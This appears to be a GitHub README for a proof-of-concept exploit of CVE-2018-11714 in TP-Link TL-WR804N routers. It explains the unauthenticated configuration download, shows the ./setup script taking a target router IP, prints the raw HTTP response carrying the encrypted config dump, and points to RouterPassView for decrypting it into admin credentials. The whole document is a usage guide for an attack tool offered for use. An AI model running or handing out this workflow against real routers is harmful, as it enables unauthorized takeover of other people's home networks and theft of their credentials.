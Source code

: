 <img src="img/warning.png" align="right" width="180" height="271" />

# TPLINK TL-WR804N Exploit ![](https://img.shields.io/static/v1?label=CVE%20SCORE&message=10.0&color=RED)

This is Proof Of Concept based on CVE-2018-11714 which was found by *Thouid Shaikh*. This Issue is caused by broken session handling on firmware /cgi/ directory. That allow us to download the configuration file and gain access to admin configuration panel.

This issue affect firmware 0.9.1 3.16 v0001.0 Build 170608 Rel.58696n. And it hasn't been repaired until this time (0.9.1 4.16 v0001.0 Build 180614 Rel.40494n)
So, I would like to ask all of you for help to contact the vendor to report this issue so they can fix it as soon as possible.

## CVE Source 
https://blog.securelayer7.net/time-to-disable-tp-link-home-wifi-router/

## Requierments
- curl, bash (if you use unix).

### Linux(Debian, Ubuntu, Kali, etc.)

```
sudo apt-get install curl -y
```

### Linux (Using snap store)

```
sudo snap install curl-ijohnson --edge
```
## How to Use
to execute this, make sure you have cloned this repository according to the operating system you are using. is you use linux Use the ./setup script in /src/linux dir. otherwise, if you are using the windows operating system. you can do the same.
```
theace1@linux:~./setup
Enter Your Router IP Address : 192.168.0.1
```

If you have done this, then you will get a encrypted router configuration code that is saved to the conf.bin. the file is saved in the same directory with the setup file. Here is the code that gets from the exploit :
```                                                                                    
HTTP/1.1 200 OK
Content-Type: application/octet-stream; charset=utf-8
Content-Length: 6256
Connection: keep-alive

+�ä�4�f�f1�^?O�vt�^GY&,���h[ڋ�lـ��.�-^Z&�d�DT^]���^Ry�^Tj�3R7B^U�5#B5m�)�=Q���\�^P�-���ĝ
+�^A^W�h�Y��ݠ��%^G����^C���^K�0&r����vj[��x��m�z^R����}֩j0���3��^Q�͎�|�^T}]^A$霤^A��#^T^Z
��^O4���^W��n��l�^X�^S�j�Z��^S^X�;>�^���<^\��L������ԧ𧣩�����^S��|��

```

## How to Decrypt
To decrypt this file easily, you can use a free software provided by [Nirsoft](https://www.nirsoft.net/utils/router_password_recovery.html) called Routerpassview. this is the problem, if you don't use the windows operating system then you can use virtual reactos (virtualbox, vmware, etc.) and run the routerpassview software on the virtual os.

## Finding your Router IP Address

## Author
thanks to all the friends who helped me complete this code. and thanks CVE Author for discovering this vulnerability.
- Code Author [thecae1](https://github.com/theace1) [the4ce1@aol.com](mailto:the4ce.aol.com?subject=Hello%20theace%2C&body=I%20have%20an%20important%20comment%20for%20you) & CVE Author [Thouid Shaikh](https://blog.securelayer7.net/author/touhid/)  

